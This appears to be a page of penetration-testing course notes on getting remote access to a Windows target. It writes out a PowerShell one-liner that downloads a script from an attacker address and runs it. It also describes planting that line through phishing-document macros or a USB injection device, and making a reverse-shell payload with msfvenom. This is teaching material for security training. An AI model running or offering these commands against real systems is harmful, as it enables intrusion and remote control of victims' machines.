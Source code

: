 Additionally, we will look at examples of downloading and executing files, launching remote access tools, and enumerating users and assets.
<font style="color: red">VIDEO NEEDED</font>

### Downloading Files
---
Let’s start with something simple: downloading and executing a script.

We’ll show you how to create the script in the next step. For now, let’s focus on a single line of code that will give us leverage over our target:

`powershell.exe -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.0.100/run.ps1'))"`

Also known as a “one-liner,” these collapsed or simplified scripts can be quickly injected in many different ways, such as using macros in a word document that we sent as an attachment in a phishing email.

If we have physical access, we could use a USB implant, such as the famous USB Rubber Ducky, to quickly and automatically open a command-line and inject our one-liner.

On inspection, we see that the first element of our code is executing powershell.exe with the option -c, which tells PowerShell to execute the following command block or script and then exit. This command block will execute an element inside the parenthesis (after “IEX”, which creates a new connection to our specified attacker and downloads a file called “run.ps1”.

Now that we know how to download and execute, let’s see what our run.ps1 does and how to create it.

### Launching Remote Access
---
As discussed, we aim to get access inside our target device, and we have a way of injecting our one-liner from the previous segment so we only need to create the script that will be downloaded.

> [!warning] For simplicity, we first showed the one-liner and how to create the main script. In a real-life scenario, you need to make sure the script is created and accessible before injecting your code that will download it.

To create the script, we will use **msfvenom**, which is a very flexible and useful component of the Metasploit framework dedicated to generating many different payloads for different platforms and architectures:
![[Pasted image 20240612140443.png]]
*Metasploit msfvenom script creation*

Here, we specified the payload with the option **-p** and select “`reverse_powershell`” which is located inside “cmd/windows”.

> [!warning] _You will learn more about reverse and bind shells in Lesson 16. We also specify the IP of our attacker device and the port we’re listening to._

The result is much more complex than our one-liner.

Here you see the created script for reference:
![[Pasted image 20240612140532.png]]
*Metasploit msfvenom example script*
